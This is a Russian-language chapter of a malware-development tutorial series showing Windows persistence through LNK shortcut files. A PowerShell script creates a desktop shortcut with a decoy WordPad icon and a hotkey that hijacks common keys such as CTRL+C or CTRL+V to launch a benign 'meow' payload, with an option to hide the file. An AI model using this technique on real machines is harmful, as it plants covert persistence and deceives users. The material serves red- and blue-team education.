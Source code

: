 \newpage
\subsection{89. разработка вредоносного ПО: закрепление (persistence) - часть 23. LNK-файлы. Простой пример на Powershell.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/112/2023-12-11_01-01_1.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через Windows LNK-файлы.     

### LNK

Согласно [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943), `LNK`-файл представляет собой ярлык или "ссылку" в Windows, предоставляя ссылку на исходный файл, папку или приложение. Для обычных пользователей эти файлы имеют полезное значение, помогая организовать файлы и поддерживать порядок на рабочем пространстве. Однако с точки зрения атакующего `LNK`-файлы приобретают другое значение. Они использовались в различных документированных атаках APT-групп и, насколько мне известно, остаются актуальным вариантом для таких действий, как фишинг, установление закрепления и выполнение полезных нагрузок.     

Знаете ли вы, что ярлыки Windows можно регистрировать с помощью комбинации клавиш для их выполнения? Это основной трюк для закрепления вредоносного ПО в данном случае.    

### практический пример

Допустим, у нас есть "вредоносное" ПО. Как обычно, `meow-meow` messagebox приложение `hack.c`:    

```cpp
/*
hack.c
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем powershell-скрипт для создания `LNK`-файла со следующими свойствами:     

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

Как можно видеть, логика довольно простая. Мы просто создаем ярлык на рабочем столе, у которого задана комбинация клавиш: `CTRL+W`. Конечно, в реальных сценариях атаки это может быть `CTRL+C`, `CTRL+V` или `CTRL+P` и т. д.    

Например, если создать ярлык для `Paint`, у него нет назначенной комбинации клавиш:    

![pers](./images/112/2023-12-09_23-54.png){width="80%"}    

> Проводник Windows ограничивает поддержку ярлыков командами, начинающимися с CTRL+ALT. Дополнительные последовательности должны быть заданы программно через COM.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/112/2023-12-11_01-28.png){width="80%"}    

Для проверки корректности запускаем:    

```powershell
.\hack.exe
```

![pers](./images/112/2023-12-11_00-51.png){width="80%"}    

Теперь просто запускаем наш PowerShell-скрипт для закрепления:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

![pers](./images/112/2023-12-11_00-57.png){width="80%"}    

В результате `Meow LNK`-файл успешно создан.    

Если посмотреть его свойства, все в порядке:     

![pers](./images/112/2023-12-11_01-01.png){width="80%"}    

Наконец, просто запускаем его и пытаемся активировать комбинацию `CTRL+W`:     

![pers](./images/112/2023-12-11_01-02.png){width="80%"}    

![pers](./images/112/2023-12-11_01-05.png){width="80%"}    

Как можно видеть, все сработало идеально, как и ожидалось! =^..^= :)    

Эта техника используется APT-группами, такими как [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/), а также вредоносным ПО, таким как [Emotet](https://attack.mitre.org/software/S0367/). По правде говоря, этот метод широко применяется и распространен благодаря своей высокой эффективности в обмане жертв.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

Огромная благодарность моему другу и коллеге [Антону Кузнецову](https://twitter.com/yrevichus), который напомнил мне об этой технике во время одной из своих удивительных презентаций.

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     
